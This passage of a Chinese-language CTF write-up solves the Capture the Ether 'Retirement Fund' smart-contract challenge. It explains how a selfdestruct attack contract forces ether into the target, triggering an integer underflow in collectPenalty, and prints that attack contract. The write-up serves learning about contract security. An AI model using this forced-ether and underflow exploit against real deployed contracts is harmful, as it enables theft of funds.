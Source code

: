 ```
        require(msg.sender == owner);

        if (now &lt; expiration) `{`
            // early withdrawal incurs a 10% penalty
            msg.sender.transfer(address(this).balance * 9 / 10);
        `}` else `{`
            msg.sender.transfer(address(this).balance);
        `}`
    `}`

    function collectPenalty() public `{`
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn &gt; 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    `}`
`}`
```

这个挑战也有点意思，叫退休基金，介绍里说他要留1 ether养老并且上个锁保证自己10年内都不会取出来，如果他提前取出来的话就把存的钱留十分之一给你，不过这部署的过程花的不还是我的ether么，罢了，这些细节就不要在意了

很显然withdraw函数我们是无法调用的，我们只是个player，那么关注点自然就在collectPenalty，看起来它似乎是无法调用的，满足的条件里需要withdrawn大于零，但是这里startBalance与此合约的balance都是1 ether，那么withdrawn应该一直为0，然而遍寻合约也没见到可以发送ether的位置，事实上这里的考点是以太坊中合约的自毁机制，这是通过selfdestruct函数来实现的，如它的名字所显示的，这是一个自毁函数，当你调用它的时候，它会使该合约无效化并删除该地址的字节码，然后它会把合约里剩余的balance发送给参数所指定的地址，比较特殊的是这笔ether的发送将无视合约的fallback函数，所以它是强制性的，这样的话我们就有手段来修改当前合约的balance值了，更进一步我相信你也发现了此处下溢的存在，withdrawn &gt; 0就成功被满足了

部署攻击合约：

```
contract attack `{`
    address target = address of your challenge;

    function attack() public payable `{`

    `}`

    function kill() public `{`
        selfdestruct(target);
    `}`
`}`
```

注意部署的时候要发送一些ether，不然自毁了也没balance可发，然后即可直接调用目标合约的collectPenalty完成挑战了

### <a class="reference-link" name="0x6.%20Mapping"></a>0x4. Mapping
